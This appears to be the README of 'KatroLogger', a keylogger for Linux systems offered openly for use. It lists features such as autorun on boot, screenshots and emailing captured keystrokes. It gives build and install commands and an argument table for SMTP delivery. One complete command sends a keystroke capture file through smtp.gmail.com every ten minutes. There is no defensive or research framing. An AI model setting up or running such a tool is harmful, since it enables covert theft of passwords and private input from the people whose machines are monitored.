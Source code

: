 <h1 align="center">KatroLogger</h1>
<h4 align="center"><code>KeyLogger for Linux Systems</code></h4>

<p align="center">
  <a href="https://github.com/Katrovisch/KatroLogger">
    <img src="https://github.com/Katrovisch/KatroLogger/blob/master/static/img/keylogger.png">
  </a>
</p>

- **Features**
  - Runs on GUI systems or CLI
  - Sending data by email
  - Autorun on boot
  - Screenshots

- **Dependencies**
  - [libquickmail](https://sourceforge.net/projects/libquickmail/)
```
wget https://ufpr.dl.sourceforge.net/project/libquickmail/libquickmail-0.1.29.tar.xz
tar -xvf libquickmail-0.1.29.tar.xz
./autogen.sh && ./configure && make && make install
```

- **Compiling**
```Shell
./configure
make
make install
```
- **Usage**
```Shell
katrologger --output /path/file
```
### Send data by e-mail

| Argument | Description | 
|---|---|
| --smtp-status | status of sending email service |
| --smtps-url | SMTPS server |
| --smtp-url | SMTP server |
| --port | SMTP port|
| --mail-from | source email |
| --mail-rcpt | receipt email |
| --pass | password email |
| --smtp-file | attach key capture file for sending |
| --time | time interval for sending, ex: --time 1-60 (minutes) |
| --screen | screenshot, ex: --screen :0 (display) |

</br>

```Shell
katrologger --smtps-url smtp.gmail.com --port 465 --mail-from <address> --mail-rcpt <address> --pass <password> --smtp-file /path/keyscan --time 10
```

- **Uninstall**
```Shell
make uninstall
```

- **License**

KatroLogger is licensed under the [GNU General Public License v3.0](https://github.com/Katrovisch/KatroLogger/blob/master/LICENSE)
